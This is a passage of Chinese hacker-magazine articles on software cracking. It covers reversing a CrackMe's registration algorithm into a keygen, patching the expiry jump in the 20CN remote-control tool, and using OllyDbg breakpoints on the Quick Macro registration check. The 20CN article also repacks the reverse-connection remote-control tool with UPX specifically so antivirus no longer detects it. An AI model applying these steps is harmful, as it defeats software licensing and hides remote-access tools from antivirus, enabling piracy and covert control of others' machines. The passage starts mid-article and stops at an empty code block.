00405821. C743 04 89ABCD> MOV DWORD PTR DS:[EBX+4],EFCDAB89
00405828. C743 08 FEDCBA> MOV DWORD PTR DS:[EBX+8],98BADCFE
0040582F. C743 0C 765432> MOV DWORD PTR DS:[EBX+C],10325476
00405836. C743 10 F0E1D2> MOV DWORD PTR DS:[EBX+10],C3D2E1F0
```

调用 SHA1 算法前的数据 20 字节（用作初始化）：
`0012FC74 26 11 79 19 82 43 AD 08 82 43 AD 08 B3 B2 B2 05 86 4D A0 75 53 07 01 AD`

调用 SHA1 算法后的数据 20 字节：
`0012FC74 41 D2 39 85 39 6E 63 47 AB E8 C9 59 A7 4B 7C 65 5C EE 4F D6 53 07 01 AD`

在生成的 20 个字节里我们找到了 X(13-24) = `AB E8 C9 59 A7 4B 7C 65 5C EE 4F D6`。

到这里才弄清楚 X 的后 12 个字节的算法（用 `SHA1_DATA(n)` 代表 SHA1 算法的第 n 个初始化数据）：

- SHA1_DATA(5) = MD5(User)(13-16);
- SHA1_DATA(4) = MD5(User)(9-12);
- SHA1_DATA(3) = 系统所在盘序列号;
- SHA1_DATA(2) = C盘序列号;
- SHA1_DATA(1) = 由操作系统版本号决定的常数 19791126 或 19791007;
- X(13-24) = SHA1(User)(9-20)

## 7. 确定 RSA 加密的 N 和 E 的索引数的算法

从 004089C5 这一行跟踪可以发现，此处把 “SHA1_DATA(1)” 右移了 31 位的结果转换成 16 进制字符串 S1（长度为 8 前边补零），把（SHA1_DATA(1) 左移 1 位）与（SHA1_DATA(1) 右移 31 位）按位或的结果转换为 16 进制字符串 S2，把（SHA1_DATA(2) 左移 1 位）与（SHA1_DATA(3) 右移 31 位）按位或的结果转换为 16 进制字符串 S3，拼接 S1+S2+S3=S，然后用 SHA1 的结果的 1-16 字节作为 MD5 算法的初始化数据，对 S 进行 MD5 散列，得出 16 个字节如下：

`0012FC74 95 43 17 5E B1 3A 1C 95 38 85 6D D5 CD 97 45 B9`

将这 16 个字节当成 4 个 32 位数进行求和，结果和 0x0F 进行按位操作（相当于对 16 取余），得出 0 的值，就是设定 RSA 算法用来加密的 N 和 E 的索引数，在我的机器上等于 11，查 RSA 算法的 N、E 表可以证实这个索引数是正确的，具体算法请参见 CODE.TXT。

# 神秘园

## 8. 矩阵 A 和 B 的算法

原本我是想把矩阵 A 和 B 的算法给追出来，但分析到一半发现可以不去求 A 和 B。追矩阵的算法应该是 `0040879E` 这个对用户名进行 MD5 散列后的 CALL 进行。

```assembly
0040879E  E8 C5F9FFFF  CALL CrackMeO.00407168 ; 用户名 MD5 散列
```

按 F8 跟踪，发现经过下面这个 CALL 时生成了矩阵 A 和 B：

```assembly
004087D9  8B45 FC  MOV EAX,DWORD PTR SS:[EBP-4]
```

在此之前的 `004087BC` 的 CALL，给了我不少的提示。

```assembly
004087BC  E8 ABF0FFFF  CALL CrackMeO.0040786C ; 将矩阵非奇异化
```

按 F7 跟踪 `004087BC` 进去分析可知，这个 CALL 将用户名的 16 字节 MD5 码转成 4×4 矩阵，并通过给主对角线上的元素加或减某个对应的数使之非奇异（行列式不等于零）。如果你把 MD5 码全用 0 替换，会得出一个主对角线元素为 1、3、5、7 的非奇异阵。

我比较关心的是这里为什么要对矩阵非奇异化？而后边根据这个矩阵又生成了两个矩阵，自然让人想到矩阵的分解。这个 `004087BC` 处的 CALL 还确实在显现。在对数据进行跟踪后，在内存中看到了如下一个下三角矩阵，使我想到了矩阵的三角（LU）分解。

```
8F 00 00 00
13 0A 1B 00 00
B3 0D D7 EF FF FF FF FF 31 90
C4 17 EF FF FF FF 00
86 E1 D9 FF FF FF FF E5 57 80
FB FF FF FF 4A 4C 95 B7 07 AF 00 00
```

设由 MD5 码重构后的非奇异矩阵为 M，若作者使用矩阵的 LU 分解的话，其思路可能是：M = LU => XM = XLU => XMU⁻¹ = XL，若令 Y = XM 则可满足 YU⁻¹ = XL，这样可用 YU⁻¹ 和 XL 是否相等来检测 Y = XM 等式是否成立。我按照此想法直接用得出的 X 去乘 M，得出的结果居然在传递的数据中，从而验证了我的猜想，这里有点儿惊讶，还好蒙对了一个！

到这里终于算是把整个注册算法搞清了！M 如何在 LU 分解后又变成了 A、B 及 C，上面用到的数据参与运算也不知用意何在？但我已没有耐性再追下去了。

```
0012FC2C  19 79 11 26 10 07 19 79 19 70
```

同余式理论可保证在矩阵运算中采用的取余运算不影响本算法的正确性（可参见华罗庚《从孙子的神奇妙算谈起》），但取余运算却使得解不再唯一（另：求出一个解后就可求出其它的解，有兴趣的朋友可参考有关书籍进行求解）。

## 二、注册算法流程

设 Name 为用户名，Code 为注册码，RM(M) 为使矩阵 M 非奇异的函数，则 Name 推出注册码的过程如下：

```
X(1-12) = XOR32(Name) + CRC32(Name) + CRC32(STR(XOR32(Name) + CRC32(Name)))
SHA_DATA(5) = MD5(Name)(13-16)
SHA_DATA(4) = MD5(Name)(9-12)
SHA_DATA(3) = 系统所在盘序列号
SHA_DATA(2) = C盘序列号
SHA_DATA(1) = 由操作系统版本号决定的常数 19791126 或 19791007
X(13-24) = SHA1(Name)(9-20)
X = X(1-12) + X(13-24)
M = RM(MD5(Name))
XM = Y = Y(1-12) + RSA_DE(Y(13-24))
Code = C64_En(Y)
```

## 三、编写注册机

光盘中附有这个 KeyGenIPB 的全部 VC++ 源程序和编译好的可执行程序（以前的找不到了，只好重写了一个，汗！）。运行界面如图 8。



## 四、算法评析

采用矩阵的 LU 分解作为算法验证的一个环节，另外也对常用的算法进行了稍微的改动，使得破解难度加大。如果缺乏矩阵论相关知识的话，可能很难写出最后的注册机。数学知识在算法研究中的重要性可见一斑。

在运算时用到了和机器相关的一些数据（操作系统的版本号、C 盘和系统所在盘的序列号），却没有通过申请码之类的数据进行反锁，有些不太合乎常理（这样恐怕只有在用户的机器上运行注册机，才能得出正确的注册码）！用矩阵乘法进行比较的方法也不是太好，因为破解者只需在前边更改一些算法初始化数据（如将 `0012FA54` 处的数据全改成 00），就可使矩阵 A 和 B 都为零而实现随意注册。取余运算使得注册码不唯一。当然，作为算法研究这些倒也无可厚非。

通过对这个程序的研究可见：对算法的分析只要有足够的耐心和知识（有时耐心似乎更重要些），成功只是个时间问题。终有一天，当你发现破解不再是“能不能够”而是“值不值得”的时候，恭喜你晋级了！

## 五、后记

至此，絮絮叨叨的又写了几篇满纸荒唐的关于共享软件注册算法的基本破解思路的文章，希望对提高您的破解水平能有些许帮助。这几个例子都是在没有加壳的情况下来分析的；但若有些程序使用某种技术让你无法跟踪、无法分析时，你怎么去追算法，怎么去写注册机？

以后有机会，想将高级脱壳部分写到后续文章中，将逆向工程部分写到破解系统中。由于时间、精力及水平有限，且已是心有余而力不足，近期内无法再续写文章了。

> （本文所涉及的如下软件光盘中有收录：CrackMeOCG.exe、KeyGen、calcpro.exe、HashCal.exe、RSATool2v17.exe、code.txt）

## 爆破 20CN 远程软件 & 如何躲避杀毒软件

作者：playx

20CN 远程控制软件是由 20CN 网络安全小组设计的一款功能实用、配置简单、容易上手的反弹端口型远程控制软件，非常适合广大初学者使用。主界面如图 1。



图 1

但是该软件在 2003 年后就会过期，另外因为作者设计此软件的目的在于正规的远程控制软件而不是木马，所以在软件的启动隐藏和避开瑞星防火墙等方面则没有进行考虑。

OK，学了一段时间的软件破解，今天正好拿它练练手。工欲善其事，必先利其器，我的工具箱中的法宝如下：

- 查壳软件：Peidentfile v0.8，能测出大部分软件加壳类型
- 脱壳软件：Aspackdie 1.4，自动脱去 ASPack 所加的壳，目前支持 ASPack 最高版本
- 静态反汇编软件：W32Dasm 8.93，专业文字/HEX 编辑器，UltraEdit-10.10 版
- 压缩软件：UPX 1.24 版



图 2

第一步，先对软件进行脱壳处理。打开 Peidentfile 调入主文件 PcShare.exe，图 2 测出是用 ASPack 2.12 加的壳，然后打开 Aspackdie 1.4 对它进行了脱壳处理。图 3 显示脱壳成功后再比较一下文件大小和脱壳情况，确认无误后进行反汇编。



图 3

第二步，进行反汇编操作。打开 W32Dasm 8.93 黄金中文版，调入脱壳后的文件。选择“参考”菜单—串式参考，查找“软件已经过期，请下载新版本使用！”，如图 4。



图 4



图 5

找到后双击该文本，来到该文本程序代码所在的虚拟地址处，向上几行在虚拟地址 `0040BC8A` 处可以看到一个跳转：`jle 0040BC9F`。执行后弹出软件过期对话框，按确定后跳至虚拟地址 `0040BC95` 执行 CALL 后，来到虚拟地址 `0040E01A` 处，执行跳转后强制退出。可以分析出虚拟地址 `0040BC8A` 的 `7E13` (jle 0040BC9F) 这个跳转是个关键。查阅汇编跳转指令得知，机器码为 `7E` 的 `jle` 为间接标志转移，如果把它改成机器码为 `EB` 的无条件转移指令 `jmp`，则无论时间怎么变化都显示在有效期内。

第三步，修改程序代码。打开 UltraEdit，调入脱壳后的软件，查找 `0040BC8A` 处和与之相邻的 `0040BC8C` 机器代码 `7E 13 6A 00`（图 5），把此处的 `7E` 改成 `EB` 保存退出，运行一下修改后的软件，限制解除。

另外，在调试软件过程中，我还发现了一个有趣的现象，当把系统时间改为 2038 年以后时，软件的时间限制消失，打开软件后，在发生时间一栏中没有显示任何时间（图 6）。呵呵，这也许是程序的一个小小的 BUG 吧？



至此，破解工作结束。下面就是要重新对脱壳破解后的软件进行加壳处理，从而逃避杀毒软件的查杀。在分析软件脱壳时得知最初是用 ASPack 加的壳，现在为了不被查杀，自然不能再用原来的 ASPack 加壳了，这里我用的是 UPX 1.24 版。把破解后的软件改成原来的名称，复制到 UPX 文件夹下，打开 UPX 调入文件后，在“选项”栏里选作“强制压缩”，其余默认（图 7）。然后在“压缩”栏中点击“压缩”后开始加壳。整个过程不提示错误的话，说明加壳工作已完成，如图 8。



现在再用杀毒软件测试一下，可以看出来杀毒软件已经检测不到经过重新加壳处理的软件了（图 9）。下面的工作就是配置客户端。生成的客户端软件也是用 ASPack 压缩的，且能被查杀，逃避杀毒软件的方法和主文件采用的方法一样，在此就不赘述。以上测试均在 Windows 2000 Pro、瑞星 2004 V16.14 单机版运行环境下通过。



（文中涉及的以下软件光盘中有收录：BO2CN 远程控制、Peidentfile v0.8、Aspackdie 1.4、W32Dasm 8.93、UltraEdit-10.10、UPX 1.24）

## OllyDbg 妙用 2：万能断点

作者：蒙辉

一直以来有许多朋友都认为 OD 不能下万能断点，也有许多初学者因为 OD 不能下万能断点而投靠 TRW2000。这些朋友一定要看过来啊，其实 OD 也是可以下万能断点的。我们通过一个具体的例子来详细讲解一下 OD 下断点的方法：

## 软件信息和所用工具

- 程序名称：按键精灵（Quick Macro）V2
- 文件名：QMacro.exe
- 文件大小：103,424 byte
- 加壳类型：UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo
- 功能限制：未注册只能用 999 次
- 破解所用工具：PEiD v0.91、OllyDbg 1.09 汉化版

## 破解全过程

先用 PEiD 打开 QMacro.exe，查看 OEP 可知程序入口为 `0041D329`，如图 1。



现在用 OllyDbg 1.09 载入程序，因为程序有加壳所以我们没办法在一开始就下断点，我们需要让程序运行到程序入口所在的地方。这需要一些技巧，不过并不难，我们要做的就是用 F4 从载入点开始 5 至 6 行这样跳着运行，很快我们就能看到：

```assembly
00456D3E  8903        MOV DWORD PTR DS:[EBX],EAX
00456D40  83C3 04     ADD EBX,4
00456D43  EB D8       JMP SHORT QMACRO.00456D1D
00456D45  FF96 307F0500 CALL DWORD PTR DS:[ESI+57F30]
00456D4B  61          POPAD
00456D4C -E9 D865FCFF JMP QMACRO.0041D329
00456D51  0000        ADD BYTE PTR DS:[EAX],AL
00456D53  0000        ADD BYTE PTR DS:[EAX],AL
```

在加壳程序里一般来说 `POPAD` 就是入口点的标志。找到这个就很容易找到入口点了。我在这里正要讲的不是脱壳，如果大家对这个有兴趣的话可以参看 2003 年 9 月的《黑客 X 档案》第 41 页。

找到这里我们在 `00456D4B` 处双击下个断点，然后 F9 运行到这里，再 F8 两次就从 `00456D4C` 这里跳到程序入口点 `0041D329`。

```assembly
0041D329  55          PUSH EBP ; 入口点
0041D32A  8BEC        MOV EBP,ESP
0041D32C  6A FF       PUSH -1
0041D32E  68 D0514200 PUSH QMACRO.004251D0
```

到此程序在壳中已经解压完全，在这里我们可以下常规断点了。现在就进入我们的主题——如何下万能断点。

下面注意，在载入程序后选 OD 菜单栏上的插件 -> 命令行（快捷键是 ALT+F1），在弹出的窗口中输入断点命令 `bpx *`（图 2），按回车键，结果出现一个标题为 Intermodular calls 的对话框（图 3）。



然后把这个对话框关了，按 F9 运行程序。接着就是进入软件注册窗口，注册窗口里的“用户名”和“注册码”随便填（图 4），点击 OD 工具栏上边的那个浅蓝色的“R”图标（图 5），或者选择菜单栏上的“查看 -> 参考”，你会看到刚才的 Intermodular calls 对话框。如图 3 中选中所有命令并设置断点（热键是 S）单击，你看每一行都变成了红色吧？这表示全部设下断点了，这就是下了万能断点哦！

朋友们一定会问为什么不在程序运行后再下断点，其实程序运行后再下断点就截不到这些函数了，我发现对于加壳程序，在入口处下截取函数是最好的，对于未加壳的软件也是需要在入口处截取函数。

现在我们点击注册窗口的注册按钮，程序会被中断在如下位置：

```assembly
004151DF  6A 01       PUSH 1
004151E1  E8 28760000 CALL QMACRO.0041C80E
004151E6  8D4C24 08   LEA ECX,DWORD PTR SS:[ESP+8]
004151EA  E8 B3750000 CALL QMACRO.0041C7A2
004151EF  8B86 2C010000 MOV EAX,DWORD PTR DS:[ESI+12C]
004151F5  8DBE 2C010000 LEA EDI,DWORD PTR DS:[ESI+12C]
004151FB  68 90BD4200 PUSH QMACRO.0042BD90
00415200  50          PUSH EAX
```

后面的过程很烦琐，感觉在这一点上 OD 比不上 TRW 和 SoftICE。不过我们只需要一直 F8，然后注意哪个中断处下方几行同时出现 PUSH+TEST+跳转指令（这是注册跟踪的常见特征），在这种地方放慢速度，盯仔细了，跟进 CALL 里边。在跟踪过程中，我们会发现这个地方出现多次循环：

```assembly
